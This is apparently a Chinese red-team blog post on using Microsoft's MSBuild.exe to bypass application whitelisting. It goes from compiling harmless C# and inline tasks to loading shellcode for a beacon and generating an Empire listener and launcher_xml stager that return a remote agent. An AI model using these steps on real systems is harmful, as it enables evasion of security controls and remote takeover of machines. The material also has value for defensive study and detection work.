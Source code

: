 ```yaml
---
layout:     post
title:    白名单-MSBUILD的利用
subtitle:   MSBUILD的利用
date:       2020-01-03
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 白名单
    - 红队
    - 内网渗透
---
```

# 白名单-MSBUILD的利用

## 简介
MSBuild能在没有安装vs的环境中编译.net的工程文件，能编译一些特定格式的xml文件。  
具体的可以看官方的文档：  
[https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN](https://docs.microsoft.com/zh-tw/visualstudio/msbuild/msbuild?view=vs-2015&redirectedfrom=MSDN)  

## 测试
首先来几个简单的案例。  

### 编译生成可执行文件  
详细的内容还是看上看的官方文档。  
测试代码：  
```
using System;

namespace ForTest
{
    class Test
    {
        static void Main()
        {
            Console.WriteLine("test!");
        }
    }
}
```  
保存为test.cs。  
```
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    <Target Name="Compile">
        <CSC Sources="test.cs" OutputAssembly="test.exe" />
    </Target>
</Project>
```
保存为test.csproj。  
这里的文件是什么后缀无所谓，只要符合xml格式就可以进行编译。  
因为msbuild没有加入环境变量，要给上全路径或者直接到对应目录下进行编译。  
```
C:\Windows\Microsoft.Net\Framework\v4.0.30319\msbuild.exe test.csproj
```  
编译后会在对应目录下生成一个exe文件。  
运行以后会输出test。  
![200103_1](/img/200103_test.png)  

### 编译执行C#代码  
将需要执行的代码嵌入在xml中，后面也是基于这个去执行payload。  
来个简单的例子：  
```
<Project ToolsVersion="12.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">  
  <!-- This simple inline task does nothing. -->  
  <UsingTask  
    TaskName="DoNothing"  
    TaskFactory="CodeTaskFactory"  
    AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.v12.0.dll" >  
    <ParameterGroup />  
    <Task>  
      <Reference Include="" />  
      <Using Namespace="" />  
      <Code Type="Fragment" Language="cs">  
      </Code>  
    </Task>  
  </UsingTask>  
</Project> 
```
这是官方的例子，我们在<Code></Code>中添加需要执行的代码。  
```
 <![CDATA[
         Console.WriteLine("test!");		
     ]]>
```
同样的这个文件后缀也无所谓，只要满足对应的xml语法就可以了。  
![200103_2](200103_test2.png)  

## 加载shellcode  
通过向xml中添加内嵌代码，用来加载shellcode。  
这里直接给出三好学生老师傅的代码。[https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml)  
将其中的shellcode替换掉。  
![200103_3](/img/200103_xml.png)  
保存为何种格式无所谓，直接通过msbuild编译。  
![200103_4](/img/200103_msbuildcsproj.png)  
也可以编译xml。  
![200103_5](/img/200103_msbuildxml.png)  
可以看到已经能上线了。  
![200103_6](/img/200103_beacon.png)  

## Empire
通过empire可以直接生成对应的xml文件，直接可以进行编译返回agent的操作。  
先listener。  
```
uselistener http
set Name test 
set Host http://xxx.xxx.xxx.xxx:xxxx
set Port xxxx
execute
```  
![200103_7](/img/200103_listener.png)  
然后生成对应的xml文件。  
```
usestager windows/launcher_xml
set Listener test
execute
```
![200103_8](/img/200103_empirexml.png)  
在靶机上执行：  
![200103_9](/img/200103_buildlaunch.png)  
可以看到返回一个angent。  
![201003_10](/img/200103_agent.png)  
后面可以继续用interact 命令去操作这个agent，这里不继续了。    

## 总结
msbuild的用法还有很多水平有限，有兴趣的可以去看看一些老师傅的文章。  

## 参考
[https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)  
[https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/](https://www.hackingarticles.in/bypass-application-whitelisting-using-msbuild-exe-multiple-methods/)  